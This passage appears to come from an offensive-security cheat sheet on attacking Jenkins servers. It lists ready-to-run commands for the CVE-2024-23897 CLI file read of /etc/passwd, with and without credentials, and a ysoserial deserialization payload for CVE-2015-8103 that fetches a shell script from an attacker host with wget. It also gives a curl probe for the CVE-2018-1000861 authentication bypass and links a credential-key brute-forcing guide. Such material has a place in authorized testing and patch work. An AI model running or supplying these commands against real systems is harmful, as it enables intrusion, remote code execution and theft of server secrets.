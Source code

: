 <img src="/pwn_jenkins.png" width="640">

Remote Code Execution
=====================
Jenkins CLI arbitrary read (CVE-2024-23897 applies to versions below 2.442 and LTS 2.426.3)
-------------------------------------------
[Jenkins Advisory](https://www.jenkins.io/security/advisory/2024-01-24/), [Credits](https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/)

Authenticated, can retrieve a complete file:
```
java -jar jenkins-cli.jar -noCertificateCheck -s https://xxx.yyy/jenkins -auth abc:abc connect-node "@/etc/passwd"
```

Unauthenticated or missing Global/Read permissions, can only read 3 lines:
Read first line:
```
java -jar jenkins-cli.jar -noCertificateCheck -s https://xxx.yyy/jenkins who-am-i "@/etc/passwd"
```
Read second line:
```
java -jar jenkins-cli.jar -noCertificateCheck -s https://xxx.yyy/jenkins enable-job "@/etc/passwd"
```
Read third line:
```
java -jar jenkins-cli.jar -noCertificateCheck -s https://xxx.yyy/jenkins keep-build "@/etc/passwd"
```

[How to bruteforce the credential encryption key.](https://www.errno.fr/bruteforcing_CVE-2024-23897.html)

Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
---------------------------------------------------------------------------
Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```


Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)
--------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2018-12-05/)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```


Metaprogramming RCE in Jenkins Plugins (CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002)
---------------------------------------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-01-08)
